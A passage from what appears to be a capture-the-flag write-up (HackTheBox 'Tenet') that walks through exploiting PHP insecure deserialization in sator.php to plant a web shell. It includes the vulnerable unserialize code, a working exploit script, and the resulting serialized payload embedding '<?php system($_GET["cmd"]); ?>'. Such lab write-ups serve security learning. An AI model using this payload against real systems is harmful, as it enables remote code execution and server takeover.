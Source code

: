$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
{{</code>}}

This script will initialize the `$input` variable with the value of the GET parameter `arepo` (set to '', if not provided). It will then unserialize it and save it in `$databaseupdate`.

Looking at the `DatabaseExport` class, we see that it has two attributes:
- `$user_file`
- `$data`

The function `update_db()` just outputs some text and update the `$data` variable to 'Success'.

The `__destruct()` function, which is a special function called when an object of type `DatabaseExport` is freed from the memory, will write to a file whatever is in the `$data` variable.

With all this information, we can write a web shell by doing the following:
- Create a serialized object of type `DatabaseExport` with the `$user_file` variable set to the name of our webshell and `$data` set to the actual webshell php code.
- Pass this serialized object to the `sator.php` script through the GET parameter `arepo`.
- Then, the script will instanciate a new object with the provided data.
- Once the execution is done, the `__destruct()` method is called, and our webshell will be written.

### Deserialization to RCE
___
We can use the following php script to generate our serialized object:

{{<code language="php" title="Exploit script">}}
<?php
class DatabaseExport {
    public $user_file = "shell.php";
    public $data = '<?php system($_GET["cmd"]); ?>';
}

$dbe = new DatabaseExport;
echo "-> " . serialize($dbe) . "\n";
?>
{{</code>}}

After executing the script, we get the following serialized object:

```php
O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"shell.php";s:4:"data";s:30:"<?php system($_GET["cmd"]); ?>";}
```

Now we can send it to the `sator.php` script:

{{<figure src="/img/htb/tenet/sending_payload.png" position=center caption="Sending exploit to /sator.php">}}
